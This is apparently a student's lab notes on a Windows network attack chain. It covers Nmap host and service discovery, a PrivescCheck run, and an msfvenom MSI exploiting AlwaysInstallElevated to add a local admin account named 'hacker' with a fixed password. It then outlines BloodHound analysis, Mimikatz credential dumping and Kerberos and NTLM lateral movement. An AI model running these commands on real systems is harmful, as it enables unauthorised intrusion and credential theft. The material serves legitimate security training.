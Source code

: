 # Windows Attack example
Based on lab tasks: Maintaining access and Lateral Movement

**Premise**
We have already gained access (infected 2 machines): 
- a linx machine
- a windows machine
    - with ad user tmassie (without local admin rights)
    - tools like Mimikatz, etc. are available 
        - (in a real environment, these tools would be detected)



## 1. Basics, Host + Service discovery
From the Linux machine, we perform analysis of the network
1. `ip -c address list eth0`  (as root): we get our IP and network address
2. Host discovery via Nmap 
    - `nmap -n -Pn --top-ports=10 10.0.1.0/24 -oA nmap_winlab_host_discovery --min-rate=5000` (will write result into file because of -oA)
        - -n -> no DNS resolution
        - --min-rate=5000 -> set a minimum rate to guarantee a timely result
    - `cat nmap_winlab_host_discovery.gnmap | awk '/Up/ {print $2}' | sort -Vu > hosts_winlab.txt` 
        - take result from nmap scan and write ip's into a file (`cat cat hosts_winlab.txt`)
3. Service discovery
    - `nmap -n -sC -sV -iL hosts_winlab.txt -oA nmap_winlab_script_version_scan --min-rate=5000` takes list of Ips and runs service discovery (via -iL param)
        - sC -> Script Scan -> Runs default scripts against known services
        - -sV -> Service/Version detection -> Tries to determine service/version for open ports

## Situational awareness and privilege escalation to local admin

**Windows configuration check with PrivescCheck**
Run PrivescCheck ( https://github.com/itm4n/PrivescCheck ) to get info about windows configuration. 
1. `powershell -exec bypass`
2. `cd C:\temp\tools\PrivescCheck\`
3. `Import-Module .\PrivescCheck.ps1`
4. `Invoke-PrivescCheck` -> we get result with configuration issues. 
    - We might see something like: "CONFIG > WSUS Configuration" or "CONFIG > AlwaysInstallElevated"

**Privilege escalation vie AlwaysInstalledElevated**
We assume the the PrivescCheck has shown we are vulnerable AlwaysInstalledElevated
(allows to run MSI as admin https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated). 
Our goal is now create an msi that creates a local admin and run it. 

1. Create msi metasploit/msfvenom (on linux)
    - `msfvenom -p windows/x64/exec CMD='cmd.exe /k "net user /add hacker Hacker@Work && net localgroup administrators hacker /add"' -f msi > useradd.msi`
        - will create a msi file "useradd.msi" that runs the following code: "net user /add hacker Hacker@Work && net localgroup administrators hacker /add"$
        - User to be created: "hacker" with password "Hacker@Work"
2. Copy file to windows machine
    - any means is possible (web attachment, file share etc.)
    - one way is gosh, as small webserver: https://github.com/patrickhener/gosh (see lab task)
    - attention: when downloading on windows machine, one might have to click away warning
3. Run created msi on linux
    - just run created msi (click away warning) and user is created (even if installer seems to abort)
4. Check
    - run `net user` and `net user hacker` to see if creation was successful
5. run as local admin (hacker)
    - start cmd as admin, pop up will show and we can enter credentials ("hacker", "Hacker@Work")
    - now we can run commands as local admin
        `whoami /groups?` -> we see that our user is in Administrator group and by "Mandatory label\High Mandatory Level" we see it runs in elevated mode

## Active directory info gathering & analysis

1. Runs PingCastle `.\PingCastle.exe` and choose healthcheck to generate result as html. 
https://www.pingcastle.com/PingCastleFiles/ad_hc_rules_list.html


2. Run bloodhound to find potential paths to domain admin
    - collect AD data and import it into bloodhound (for example via SharpHound)
    - find path to domain admin (or whatever we would like to do)
    - *see lab tasks "Maintain Access/AD Information Gathering & Analysis" or "Bloodhound_AD.md*

## Get other credentials from LSASS/SAM 
Using Mimimkatz, we can now get credentials of other (currently logged on) users. (or some other tool would be possible too)
Via Mimikatz we can get credentials (NTLM hashes) from
- LSASS process (AD accounts)
- SAM process (local accounts)
If we get new credentials, we can afterwards update Bloodhound paths (owned flag) to see how much closer we got to our target.

*see lab tasks "Maintain Access/Credential Dumping on Windows 10 Client" or "Mimikatz_Credentials.md*


## Varia/Random
Usually, these steps might have to be applied multiple times (in rounds). Example: from a machine we escalate to local admin, to get AD credentials of another user so we can jump to another machine, to which other users are logged in etc. etc.

## Lateral movement
Various possibilities

- Based on NTLM 
    - pass-the-hash
    - NTLM relay (man-in-the-middle)
    - break NTLM hash (as not that strong)
- Password spraying (get password)

 - bypass firewalls, prevent inspection,  prevent being detected
    - Port forwarding
    - SOCKS Pivoting (???)

- Based on Kerberos
    - "Overpass the hash" -> get a TGT for another tickes via stolen preauthentication data
    - Pass the ticket (TGT)
    - Golden tickets -> forged ticket-granting tickets
    - Silver ticket -> forge a service ticket 
    - Kerberoasting
        - try to get weack hash from service to crack password